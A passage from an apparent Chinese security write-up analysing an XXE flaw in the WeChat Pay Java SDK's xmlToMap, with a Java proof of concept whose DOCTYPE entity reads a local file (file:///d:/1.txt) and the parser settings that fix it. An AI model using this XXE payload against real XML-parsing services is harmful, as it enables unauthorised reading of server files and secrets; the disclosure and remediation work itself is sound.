    我们可以看到 当构建了 documentBuilder 以后就直接对传进来的 strXML 解析了，而不巧的是 strXML 是一处攻击者可控的参数，于是就出现了 XXE 漏洞，下面是我实验的步骤

   首先我在 com 包下又新建了一个包，来写我们的测试代码，测试代码我命名为 test001.java

   **如图所示：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%BE%AE%E4%BF%A1sdk%20%E6%B5%8B%E8%AF%951.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%BE%AE%E4%BF%A1sdk%20%E6%B5%8B%E8%AF%951.png)

   **test001.java**

   ```java
   package com.test.test001;
   
   import java.util.Map;
   
   import static com.github.wxpay.sdk.WXPayUtil.xmlToMap;
   
   public class test001 {
       public static void main(String args[]) throws Exception {
   
           String xmlStr ="<?xml version='1.0' encoding='utf-8'?>\r\n" +
                   "<!DOCTYPE XDSEC [\r\n" +
                   "<!ENTITY xxe SYSTEM 'file:///d:/1.txt'>]>\r\n" +
                   "<XDSEC>\r\n"+
                   "<XXE>&xxe;</XXE>\r\n" +
                   "</XDSEC>";
   
           try{
   
               Map<String,String> test = xmlToMap(xmlStr);
               System.out.println(test);
           }catch (Exception e){
               e.printStackTrace();
           }
   
       }
   }
   ```

   我希望它能读取我 D 盘下面的 1.txt 文件

   运行后成功读取

   **如图所示：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%BE%AE%E4%BF%A1sdk%20%E6%B5%8B%E8%AF%952.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/%E5%BE%AE%E4%BF%A1sdk%20%E6%B5%8B%E8%AF%952.png)

   当然，WXPayXmlUtil.java 中有这个 sdk 的配置项，能直接决定实验的效果，当然后期的修复也是针对这里面进行修复的

   ```
   http://apache.org/xml/features/disallow-doctype-decl true
   http://apache.org/xml/features/nonvalidating/load-external-dtd false
   http://xml.org/sax/features/external-general-entities false
   http://xml.org/sax/features/external-parameter-entities false
   ```
